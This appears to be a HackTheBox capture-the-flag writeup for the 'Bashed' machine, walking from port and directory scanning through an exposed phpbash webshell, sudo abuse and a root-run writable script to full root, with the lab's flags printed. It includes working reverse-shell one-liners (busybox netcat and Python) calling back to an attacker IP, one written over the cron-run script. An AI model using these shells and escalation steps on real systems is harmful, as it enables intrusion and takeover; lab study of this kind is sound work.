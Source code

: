 ```yaml
---
render_with_liquid: false
title: HackTheBox Writeup  Bashed
date: 2023-09-29 18:08:01 +1400
tags: [hackthebox, nmap, linux, feroxbuster, discover-webshell, sudo, scheduled-job-abuse, python-script, pwncat, oscp-like]
---
```





# Recon
---

```bash
┌──(bravosec㉿fsociety)-[~/htb/Bashed]
└─$ writehosts htb '10.129.68.38 bashed.htb'
+---------+--------+--------------+------------+
| PROFILE | STATUS |      IP      |   DOMAIN   |
+---------+--------+--------------+------------+
| htb     | on     | 10.129.68.38 | bashed.htb |
+---------+--------+--------------+------------+
```


## Nmap

```bash

# Nmap 7.94 scan initiated Fri Sep 29 18:07:49 2023 as: nmap -sVC -T4 -Pn -vv -oA ./nmap/full_tcp_scan -p 80 bashed.htb
Nmap scan report for bashed.htb (10.129.1.104)
Host is up, received user-set (0.056s latency).
Scanned at 2023-09-29 18:08:01 CST for 11s

PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

# Nmap done at Fri Sep 29 18:08:12 2023 -- 1 IP address (1 host up) scanned in 22.74 seconds
```


## 80 - HTTP : Arrexel's Development Site


### Info

![](/assets/obsidian/ba9bf479e3316dcab03707ecb683a0e6.png)

### Directory

```bash
feroxbuster -k -t 150 -u 'http://bashed.htb' -o ferox_80.txt
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Bashed]
└─$ cat ferox_80.txt|awk '$1!=404'|grep -vE 'bashed.htb/js/|bashed.htb/fonts/|bashed.htb/images/|bashed.htb/css/'
MSG      0.000 feroxbuster::heuristics detected directory listing: http://bashed.htb/fonts (Apache)
301      GET        9l       28w      310c http://bashed.htb/uploads => http://bashed.htb/uploads/
MSG      0.000 feroxbuster::heuristics detected directory listing: http://bashed.htb/js (Apache)
MSG      0.000 feroxbuster::heuristics detected directory listing: http://bashed.htb/images (Apache)
301      GET        9l       28w      306c http://bashed.htb/php => http://bashed.htb/php/
301      GET        9l       28w      306c http://bashed.htb/dev => http://bashed.htb/dev/
MSG      0.000 feroxbuster::heuristics detected directory listing: http://bashed.htb/php (Apache)
MSG      0.000 feroxbuster::heuristics detected directory listing: http://bashed.htb/dev (Apache)
200      GET        0l        0w        0c http://bashed.htb/php/sendMail.php
200      GET      216l      489w     8151c http://bashed.htb/dev/phpbash.php
200      GET        1l      255w     4559c http://bashed.htb/dev/phpbash.min.php
200      GET      161l      397w     7743c http://bashed.htb/
```


### Sub Domains


# User Flag
---


# Root Flag
---

## Start pwncat-cs listener

I'm decided to play with [pwncat](https://github.com/calebstewart/pwncat) this time, haven't used it for a while.

Found it useful as a light weight C2 while playing **hackthebox battlegrounds** recently

Its main functions are : `Multi sessions`, `Upload/Download command`, `Auto spawn tty (Sets stty row,columns and TERM env value)`

> I'm a fan of **tmux**, and it allows me to automate some workflows like the one liner below
{: .prompt-info }

```bash
┌──(bravosec㉿fsociety)-[~/htb/Bashed]
└─$ tmux send-keys 'listen -m linux 1111' ENTER & pwncat-cs
```

The interface is beautiful

![](/assets/obsidian/c0c68a707f63a62573cac87a4cfd439e.png)

## Shell as www-data


### phpbash webshell exposure

Click on the `phpbash` article, it reveals an open source project it's using

![](/assets/obsidian/b09effa110f54147212a4ef3e6ecdaf9.png)

> [https://github.com/Arrexel/phpbash](https://github.com/Arrexel/phpbash)

It's a webshell with no password authentication feature

Visit http://bashed.htb/dev/phpbash.php which was discovered by **feroxbuster**

![](/assets/obsidian/fadab37b2487dfbe90feec7e2ade6573.png)

Now get a reverse shell

> **Revshell cheat sheet**
> Another amazing tool I discovered during htb battlegrounds
> > https://github.com/H0j3n/EzpzShell
{: .prompt-tip }

Tried some `bash`, `python3` and `netcat` reverse shells, none of them worked

These worked:

```bash

# (Trick) Solve nc version issue : use the nc from busybox
busybox nc 10.10.16.13 1111 -e bash


# Python2 revshell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.13",1111));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

> Press `CTRL + D` to detach/attach session in pwncat
{: .prompt-info }

![](/assets/obsidian/42de5647440f920bd5db7ebaef0583b9.png)

## From www-data to scriptmanager


### SUDO

```bash
(remote) www-data@bashed:/var/www/html/dev$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

```bash
(remote) www-data@bashed:/var/www/html/dev$ sudo -u scriptmanager bash
scriptmanager@bashed:/var/www/html/dev$ id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

```bash
scriptmanager@bashed:/var/www/html/dev$ cat ~/user.txt
cat: /home/scriptmanager/user.txt: No such file or directory
scriptmanager@bashed:/var/www/html/dev$ cat /etc/passwd|grep sh$
root:x:0:0:root:/root:/bin/bash
arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash
scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash
```


## From scriptmanager to root


### Schedule Job - Improper permission set on script

Find what the user owns

```bash
find / \( -path /run -o -path /sys -o -path /proc -o -path /var/lib \) -prune -o -user $USER -ls 2>/dev/null
```

![](/assets/obsidian/297a073bd8f1f80d75b401545b808932.png)

I guessed the `/script/test.py` will be run as root (too lazy to start **pspy** XD) since the owner of `test.txt` (Created by the python script) was root

Replace the script with reverse shell

```bash
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.13",1111));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > /scripts/test.py
```

Got a shell as root within about 30 secods

![](/assets/obsidian/4b4676da9a501843a21ba729e5d6c1a6.png)

```bash
(remote) root@bashed:/scripts#
(remote) root@bashed:/scripts# cd /root
(remote) root@bashed:/root# ls -la
total 28
drwx------  3 root root 4096 Sep 29 02:58 .
drwxr-xr-x 23 root root 4096 Jun  2  2022 ..
lrwxrwxrwx  1 root root    9 Jun  2  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root 3121 Dec  4  2017 .bashrc
drwxr-xr-x  2 root root 4096 Jun  2  2022 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   33 Sep 29 02:58 root.txt
-rw-r--r--  1 root root   66 Dec  4  2017 .selected_editor
(remote) root@bashed:/root# cat root.txt
29eb4fe26e76d309de80c49c5c5f2649
(remote) root@bashed:/root# cat /home/
arrexel/       scriptmanager/
(remote) root@bashed:/root# cat /home/arrexel/user.txt
676ef72038a146124670c90693c7c5f9
(remote) root@bashed:/root#
```


# Additional
---
